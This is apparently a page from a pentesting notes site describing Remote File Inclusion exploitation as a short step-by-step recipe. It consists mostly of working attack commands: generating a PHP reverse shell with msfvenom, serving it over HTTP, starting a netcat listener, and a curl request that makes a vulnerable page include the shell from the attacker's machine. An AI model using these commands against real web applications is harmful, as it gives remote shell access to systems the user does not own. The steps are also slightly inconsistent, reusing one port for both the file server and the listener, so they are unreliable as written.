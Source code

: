 ```yaml
---
title: RFI
layout: default
nav_order: 3
parent: Web Apps
grand_parent: Exploitation
---
```


# RFI (Remote File Inclusion)
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Remote File Inclusion
RFI is a vulnerability where web app can read files on another machine, preferably our attack machine

1. Create a Reverse shell. In the example, we will use PHP and `msfvenom` to generate
```bash
host=""
port=""
msfvenom -p php/reverse_php LHOST=$host LPORT=$port -f raw > shell.php && sudo nc -nvlp $port
```

2. Use `python3` HTTP server in directory housing the PHP reverse shell
```bash
cd /path/to/shell && python3 -m http.server $port
```

3. Set listener on Kali machine: 
```bash
sudo nc -nvlp $port
```

4. `curl` the endpoint that may be vulnerable to RFI
```bash
curl -i http://$IP/menu.php?file=http://$KALI_IP:$port/shell.php
```